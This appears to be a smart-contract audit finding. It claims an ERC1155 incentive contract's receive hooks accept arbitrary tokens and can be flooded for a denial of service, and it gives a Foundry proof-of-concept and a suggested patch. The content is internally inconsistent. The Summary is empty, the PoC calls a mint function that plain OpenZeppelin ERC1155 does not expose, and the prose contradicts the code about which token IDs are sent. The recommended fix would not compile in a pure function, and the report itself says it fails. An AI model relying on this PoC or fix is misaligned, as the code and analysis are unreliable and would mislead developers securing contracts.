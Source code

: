 Silly Turquoise Shrimp

Medium

# Unrestricted ERC1155 Token Transfers

## Summary

## Vulnerability Detail
The onERC1155Received and onERC1155BatchReceived functions do not check the token ID or the sender. This means that anyone can send any ERC1155 token to the contract.An attacker could create a malicious ERC1155 contract that mints a large number of worthless tokens. They could then repeatedly call the safeTransferFrom function on their malicious contract, targeting the ERC1155 incentive contract. The incentive contract would be forced to accept and store these unwanted tokens.
```solidity 
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import {ERC1155Incentive} from "src/incentives/ERC1155Incentive.sol";
import {ERC1155} from "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";

contract ERC1155IncentiveDoS is Test {
    ERC1155Incentive public incentive;
    ERC1155 public token;

    address alice = address(0x1111);
    uint256 tokenId = 1;

    function setUp() public {
        token = new ERC1155("");
        incentive = new ERC1155Incentive();
        incentive.initialize(
            abi.encode(
                ERC1155Incentive.InitPayload({
                    asset: token,
                    strategy: ERC1155Incentive.Strategy.POOL,
                    tokenId: tokenId,
                    limit: 100,
                    extraData: ""
                })
            )
        );
        token.setApprovalForAll(address(incentive), true);
    }

    function testDoS() public {
        vm.startPrank(alice);

        // Mint a large number of different tokens to the attacker
        uint256[] memory tokenIds = new uint256[](100);
        uint256[] memory amounts = new uint256[](100);
        for (uint256 i = 0; i < 100; i++) {
            tokenIds[i] = i + 10; // Use token IDs different from the incentive's tokenId
            amounts[i] = 1000000000000000000; // Mint a large amount of each token
        }
        token.mintBatch(alice, tokenIds, amounts, "");

        // Send the junk tokens to the incentive contract
        for (uint256 i = 0; i < 100; i++) {
            token.safeTransferFrom(alice, address(incentive), tokenIds[i], amounts[i], "");
        }

        vm.stopPrank();
    }
}

```
 Alice mints a large amount of the token with the correct tokenId (the same one used by the ERC1155Incentive contract) and sends it to the contract. This demonstrates that even though the suggested mitigation (require(tokenId == this.tokenId, "Invalid token ID");) is in place, Alice can still flood the contract with a large amount of the correct token, potentially leading to storage bloat and increased gas costs.

## Impact
Denial of Service: In extreme cases, the attacker could flood the contract with so many tokens that it becomes too expensive to interact with, effectively denying service to legitimate users.

## Code Snippet
https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/78930f2ed6570f30e356b5529bd4bcbe5194eb8b/boost-protocol/packages/evm/contracts/incentives/ERC1155Incentive.sol#L149C5-L157C1
## Tool used

Manual Review

## Recommendation
```solidity 

function onERC1155Received(address, address, uint256 tokenId, uint256, bytes calldata)
    external
    pure
    override
    returns (bytes4)
{
    // Only accept the intended token ID
+ require(tokenId == this.tokenId, "Invalid token ID"); 
    return this.onERC1155Received.selector;
}
```